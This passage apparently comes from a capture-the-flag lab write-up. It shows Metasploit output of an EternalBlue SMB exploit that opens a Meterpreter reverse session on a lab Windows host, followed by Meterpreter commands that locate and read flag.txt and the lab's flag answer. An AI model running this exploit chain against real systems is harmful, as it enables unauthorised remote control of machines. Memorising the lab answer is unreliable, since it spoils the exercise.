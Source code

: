 ```bash
[*] 10.10.135.20:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.135.20:445 - Sending all but last fragment of exploit packet
[*] 10.10.135.20:445 - Starting non-paged pool grooming
[+] 10.10.135.20:445 - Sending SMBv2 buffers
[+] 10.10.135.20:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.135.20:445 - Sending final SMBv2 buffers.
[*] 10.10.135.20:445 - Sending last fragment of exploit packet!
[*] 10.10.135.20:445 - Receiving response from exploit packet
[+] 10.10.135.20:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.135.20:445 - Sending egg to corrupted connection.
[*] 10.10.135.20:445 - Triggering free of corrupted buffer.
[*] Sending stage (203846 bytes) to 10.10.135.20
[*] Meterpreter session 1 opened (10.10.224.244:4444 -> 10.10.135.20:49177) at 2025-05-24 19:42:35 +0100
[+] 10.10.135.20:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.135.20:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.135.20:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter >
```


### Question 2:
What is the content of the flag.txt file?

**Answer:** THM-5455554845

Search flag.txt
```bash
meterpreter > search -f flag.txt
Found 1 result...
=================

Path                             Size (bytes)  Modified (UTC)
----                             ------------  --------------
c:\Users\Jon\Documents\flag.txt  15            2021-07-15 03:39:25 +0100
```

```bash
meterpreter > cd /Users/Jon/Documents
meterpreter > pwd
C:\Users\Jon\Documents
meterpreter > ls
Listing: C:\Users\Jon\Documents
===============================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
040777/rwxrwxrwx  0     dir   2018-12-13 03:13:31 +0000  My Music
040777/rwxrwxrwx  0     dir   2018-12-13 03:13:31 +0000  My Pictures
040777/rwxrwxrwx  0     dir   2018-12-13 03:13:31 +0000  My Videos
100666/rw-rw-rw-  402   fil   2018-12-13 03:13:48 +0000  desktop.ini
100666/rw-rw-rw-  15    fil   2021-07-15 03:39:25 +0100  flag.txt

meterpreter > cat flag.txt
THM-5455554845
meterpreter > 
```
